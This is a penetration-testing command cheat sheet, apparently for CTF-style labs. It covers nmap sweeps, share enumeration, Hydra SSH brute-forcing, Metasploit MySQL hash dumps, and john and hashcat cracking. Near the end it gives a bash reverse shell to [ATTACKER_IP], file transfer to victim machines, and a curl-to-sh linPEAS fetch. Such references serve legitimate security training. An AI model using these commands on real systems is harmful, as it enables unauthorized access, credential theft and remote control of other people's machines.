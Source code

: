 # Tools / Commands


## Update a file

```bash
# Add lines to /etc/hosts
echo "10.10.11.170 site.com" | sudo tee -a /etc/hosts

# Remove last line from /etc/hosts
sudo sed -i '$d' /etc/hosts
```

## Show OS version

```bash
cat /etc/*release

uname -a 

cat /etc/issue 
```

## Nmap

```bash
# Search for scripts
ls -l /usr/share/nmap/scripts/*ftp*

grep "ftp" /usr/share/nmap/scripts/script.db

# Ping sweep
nmap -sn 192.168.0.1-254 #-sn: no port scan

nmap -sn 192.168.0.0/16

```

## Shares

```bash
#  List the visibles NFS shares
usr/sbin/showmount -e [IP]

smbclient -L [IP]

# Mount a folder
mkdir /tmp/mount
sudo mount -t nfs [IP]:/home /tmp/mount -nolock

```

## Hydra

```bash
hydra -t 16 -l USERNAME -P /usr/share/wordlists/rockyou.txt -vV 10.10.129.236 ssh

```

## Metasploit

- auxiliary/admin/mysql/mysql_sql
- auxiliary/scanner/mysql/mysql_schemadump
- auxiliary/scanner/mysql/mysql_hashdump

- auxiliary/scanner/smtp/smtp_version
- auxiliary/scanner/smtp/smtp_enum

## Crach ssh key (with john)

```bash
locate ssh2john
python /usr/share/john/ssh2john.py idrsa.id_rsa > my.hash
john --wordlist=/usr/share/wordlists/rockyou.txt my.hash
```

## GPG decrypt

```bash
gpg --import mykey.key
gpg message.gpg
cat message
```

## Hash cracking

1) Find out what encryption is used 

```
$1$	md5crypt, used in Cisco stuff and older Linux/Unix systems
$2$, $2a$, $2b$, $2x$, $2y$	Bcrypt (Popular for web applications)
$6$	sha512crypt (Default for most Linux/Unix systems)
```

or use a site like 
- https://www.tunnelsup.com/hash-analyzer/
- https://hashes.com/en/decrypt/hash

2) Retrieve the encryption code in hashcat
```bash
hashcat -h | grep sha512crypt
```

3) Crack the hash
```bash
hashcat -m 21400 hash.txt /usr/share/wordlists/rockyou.txt
```


## RDP

```bash
xfreerdp /u:user /p:password321 /cert:ignore /v:10.10.135.207
```

```bash
remmina
```

## Share



Start a share

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```

On the victim machine

```bash
copy \\[ATTACKER_IP]\kali\somefile /path/somefile
```


### Send file to a machine
```bash
nc -w -3 [VICTIM_IP] [PORT] < LinEnum.sh
```

### Connect from server to local machine
```bash
# in bash script
/bin/bash -i >& /dev/tcp/[ATTACKER_IP]/[PORT] 0>&1
```

### Run linepeas in one line

```bash
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh
```


